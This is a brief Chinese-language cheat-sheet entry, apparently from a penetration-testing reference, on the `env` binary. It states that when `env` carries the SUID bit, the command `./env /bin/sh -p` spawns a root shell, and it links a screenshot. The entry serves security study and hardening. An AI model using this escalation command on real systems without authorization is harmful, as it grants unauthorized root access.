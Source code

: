 # env

`env` 若具有 `s` 权限，可使用如下命令直接提权至 root 权限：

```
./env /bin/sh -p
```

![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/env-1.png)


